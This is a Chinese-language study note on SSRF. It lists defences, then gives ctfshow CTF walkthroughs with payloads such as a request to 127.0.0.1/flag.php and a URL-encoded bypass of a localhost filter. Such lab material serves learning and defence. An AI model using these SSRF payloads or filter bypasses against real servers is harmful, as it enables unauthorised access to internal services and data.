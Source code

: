 #### SSRF漏洞防御

```
1,过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。
2,统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
3,限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4,黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。
5,禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
```



#### 案例

正常加载图片是数据格式

![image-20240508210037016](D:\Infiltration\笔记\note\图片\image-20240508210037016.png)

读取本地1001端口,成功访问搭建的zblog

```
http://127.0.0.1:1001
```



![image-20240508211317366](D:\Infiltration\笔记\note\图片\image-20240508211317366.png)





#### ctfshow-351

![image-20240508220214979](D:\Infiltration\笔记\note\图片\image-20240508220214979.png)

使用hackbar，post请求http协议

```
url=http://127.0.0.1/flag.php
```

![image-20240508220312564](D:\Infiltration\笔记\note\图片\image-20240508220312564.png)



#### ctfshow-352

必须为http或https但是过滤localhost和127.0.0

![image-20240508220843200](D:\Infiltration\笔记\note\图片\image-20240508220843200.png)

##### URL编码绕过

直接用hackbar自带的编码

```
url=http://%31%32%37%2e%30%2e%30%2e%31/flag.php
```

![image-20240508221224892](D:\Infiltration\笔记\note\图片\image-20240508221224892.png)
